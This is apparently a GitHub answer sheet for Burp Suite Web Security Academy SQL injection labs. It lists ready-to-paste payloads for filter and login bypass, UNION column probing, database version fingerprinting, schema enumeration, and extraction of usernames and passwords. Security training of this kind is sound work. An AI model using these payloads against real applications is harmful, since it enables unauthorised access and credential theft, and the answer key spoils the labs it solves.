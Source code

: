 # Burpsuite Lab Answers
## SQL injection 
### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#### Solution: '+OR+1=1--
![](Images/SQL-1.png)

### SQL injection vulnerability allowing login bypass
#### Solution: administrator'--
![](Images/SQL-2.png)

### SQL injection UNION attack, determining the number of columns returned by the query
#### Solution: 'UNION SELECT NULL, NULL, NULL--
![](Images/SQL-3.png)

### SQL injection UNION attack, finding a column containing text
#### Solution: 'UNION SELECT NULL,'HELLO BUDDY',NULL--
![](Images/SQL-4.png)

### SQL injection UNION attack, retrieving data from other tables
#### Solution: 'UNION SELECT username, password FROM users--
![](Images/SQL-5a.png)
![](Images/SQL-5b.png)

### SQL injection UNION attack, retrieving multiple values in a single column
#### Solution: 'UNION SELECT NULL,username||'~'||password FROM users--
![](Images/SQL-6.png)

### SQL injection attack, querying the database type and version on Oracle
#### Solution: 'UNION SELECT BANNER, NULL FROM v$version--
![](Images/SQL-7.png)

### SQL injection attack, querying the database type and version on MySQL and Microsoft
#### Solution: 'UNION SELECT @@version, NULL#
![](Images/SQL-8.png)

### SQL injection attack, listing the database contents on non-Oracle databases
#### Solution: Step-1 : '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
![](Images/SQL-9a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_qrktla'--
![](Images/SQL-9b.png)
#### Solution: Step-3 : '+UNION+SELECT+username_gwlqzm,+password_ikxmsh+FROM+users_qrktla-
![](Images/SQL-9c.png)

### SQL injection attack, listing the database contents on Oracle
#### Solution: Step-1 : '+UNION+SELECT+table_name,NULL+FROM+all_tables--
![](Images/SQL-10a.png)
#### Solution: Step-2 : '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_KNHGDL'--
![](Images/SQL-10b.png)
#### Solution: Step-3 : '+UNION+SELECT+USERNAME_XEIEJW,+PASSWORD_UHIKUI+FROM+USERS_KNHGDL--
![](Images/SQL-10c.png)
